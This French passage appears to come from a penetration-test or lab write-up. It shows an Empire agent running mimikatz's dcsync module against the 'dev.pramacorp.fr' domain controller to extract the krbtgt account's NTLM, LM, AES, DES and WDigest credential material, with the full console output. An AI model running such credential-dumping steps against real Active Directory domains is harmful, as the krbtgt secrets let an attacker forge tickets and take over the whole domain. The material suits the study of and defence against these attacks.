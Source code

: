 Essayons dcsync en ciblant le domaine dev et l'utilisateur krbtgt.

```
(Empire: powershell/credentials/mimikatz/dcsync) > set user dev\krbtgt
(Empire: powershell/credentials/mimikatz/dcsync) > execute
[*] Tasked L4GNAHWC to run TASK_CMD_JOB
[*] Agent L4GNAHWC tasked with task ID 4
[*] Tasked agent L4GNAHWC to run module powershell/credentials/mimikatz/dcsync
(Empire: powershell/credentials/mimikatz/dcsync) > [*] Agent L4GNAHWC returned results.
Job started: 6LMYF5
[*] Valid results returned by 151.80.230.58
[*] Agent L4GNAHWC returned results.
Hostname: ad.dev.pramacorp.fr / authority\system-authority\system

  .#####.   mimikatz 2.1.1 (x64) built on Nov 12 2017 15:32:00
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # lsadump::dcsync /user:dev\krbtgt
[DC] 'dev.pramacorp.fr' will be the domain
[DC] 'ad.dev.pramacorp.fr' will be the DC server
[DC] 'dev\krbtgt' will be the user account

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 08/04/2018 21:01:21
Object Security ID   : S-1-5-21-354401377-2576014548-1758765946-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: e65b41757ea496c2c60e82c05ba8b373
    ntlm- 0: e65b41757ea496c2c60e82c05ba8b373
    lm  - 0: 607ef830352d343c66db8ea5fa2f635f

Supplemental Credentials:
* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.PRAMACORP.FRkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : cec28c65d0480e15a8e926a39ea9e24bec6bab39e7ee4e40ea1c1d74d6b9fb9b
      aes128_hmac       (4096) : e125709e6b6dcbfea19c62d5af0cbe34
      des_cbc_md5       (4096) : 1910e08f5e850216

* Primary:Kerberos *
    Default Salt : DEV.PRAMACORP.FRkrbtgt
    Credentials
      des_cbc_md5       : 1910e08f5e850216

* Packages *
    Kerberos-Newer-Keys

* Primary:WDigest *
    01  99104105fd29d2d39be6380961f83e8c
    02  d8191f09d8caa79c4d0d948f37ba7d8e
    03  9dcbde9b5f29b5fa74f7484d07c65b80
```